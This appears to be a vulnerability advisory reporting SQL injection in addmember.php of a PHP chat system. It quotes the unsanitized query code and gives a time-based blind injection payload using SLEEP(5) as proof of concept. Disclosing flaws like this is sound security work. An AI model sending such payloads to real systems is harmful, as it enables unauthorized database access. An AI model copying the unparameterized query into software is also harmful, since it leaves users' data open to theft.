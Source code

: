 # Chat System Using PHP has sql injection in /user/addmember.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/addmember.php



## describe


The id parameter in /user/addmember.php is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('session.php');
	if (isset($_POST['id'])){
		$id=$_POST['id'];
		
		$query=mysqli_query($conn,"select * from chat_member where chatroom='$id' and userid='".$_SESSION['id']."'");
		if (mysqli_num_rows($query)<1){
			mysqli_query($conn,"insert into chat_member (chatroomid, userid) values ('$id', '".$_SESSION['id']."')");
		}
	}
?>
```

Inserting $_POST['id'] into Mysql query without any filter. A time-based blind SQL injection can be triggered.





## POC

```
id=1' AND (SELECT 1003 FROM (SELECT(SLEEP(5)))bYhJ) AND 'VosV'='VosV
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.
